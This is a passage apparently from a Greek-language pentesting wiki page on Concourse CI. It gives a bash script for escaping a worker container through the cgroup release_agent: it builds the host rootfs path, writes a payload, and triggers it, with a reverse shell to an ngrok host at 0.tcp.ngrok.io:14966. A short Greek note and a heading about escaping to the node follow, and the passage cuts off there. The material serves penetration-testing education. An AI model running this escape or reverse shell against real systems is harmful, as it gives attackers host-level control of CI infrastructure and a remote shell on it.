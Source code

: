 ```bash
## Then next part I think is constant "hostpath-provisioner/default/"

## For the next part "concourse-work-dir-concourse-release-worker-0" you need to know how it's constructed
# "concourse-work-dir" is constant
# "concourse-release" is the consourse prefix of the current concourse env (you need to find it from the API)
# "worker-0" is the name of the worker the container is running in (will be usually that one or incrementing the number)

## The final part "overlays/bbedb419-c4b2-40c9-67db-41977298d4b3/rootfs" is kind of constant
# running `mount | grep "on / " | grep -Eo "workdir=([^,]+)"` you will see something like:
# workdir=/concourse-work-dir/overlays/work/ae7df0ca-0b38-4c45-73e2-a9388dcb2028
# the UID is the part we are looking for

# Then the host_path is:
#host_path="/mnt/<device>/hostpath-provisioner/default/concourse-work-dir-<concourse_prefix>-worker-<num>/overlays/<UID>/rootfs"

# Sets release_agent to /path/payload
echo "$host_path/cmd" > /tmp/cgrp/release_agent


#====================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/0.tcp.ngrok.io/14966 0>&1" >> /cmd
chmod a+x /cmd
#====================================
# Get output
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#====================================

# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# Reads the output
cat /output
```

{% hint style="warning" %}
Όπως μπορείτε να παρατηρήσετε, αυτό είναι απλά ένα [**απόδραση του release\_agent**](https://github.com/carlospolop/hacktricks-cloud/blob/gr/pentesting-ci-cd/concourse-security/broken-reference/README.md) με την τροποποίηση της διαδρομής της εντολής στον κόμβο
{% endhint %}

#### Απόδραση στον κόμβο από έναν εργατικό container

Μια απλή απόδραση του release\_agent με μια μικρή τροποποίηση είναι αρκετή για αυτό:

